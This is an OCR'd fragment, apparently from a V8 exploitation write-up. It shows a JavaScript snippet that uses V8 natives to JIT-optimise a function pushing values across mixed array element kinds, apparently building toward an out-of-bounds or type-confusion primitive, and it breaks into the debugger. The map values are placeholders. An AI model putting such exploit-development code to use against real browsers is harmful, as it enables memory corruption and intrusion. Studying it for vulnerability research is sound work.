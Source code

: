 ```js
}

function foo(arg1, arg2){
  var b1 = arg2[0];
  var a1 = arg1[0];
  Array.prototype.push.call(arg2, 1.1, 2.2, 3.3, 4.4, 5.5, 6.6, 7.7, 8.8, 9.9, 10.10, 11.11, 12.12, 13.13, 14.14);
}

let i, index;
let double_map = 0xdeadbeefcafebaben;
let object_map = 0xdeadbeefcafebaben;
index = -1;

var array = [1.26980228142276e-310, 2.2, 3.3];
var object = [{a:1}, {b:2}];
var oob;

gc_major();

const smi = [1, 2, 3];
const double = [1.1, 2.2];
const elements = [{a:1}, {b:2}, {c:3}];

%PrepareFunctionForOptimization(foo);
foo(elements, smi);
%OptimizeFunctionOnNextCall(foo);
foo(double, double);


double.pop();
double.pop();
double.pop();
double.pop();
double.pop();

%PrepareFunctionForOptimization(foo);
foo(elements, smi);
%OptimizeFunctionOnNextCall(foo);
foo(double, double);


%DebugPrint(double);


console.log("debug");
%SystemBreak();
```

Its corresponding memory state in gdb
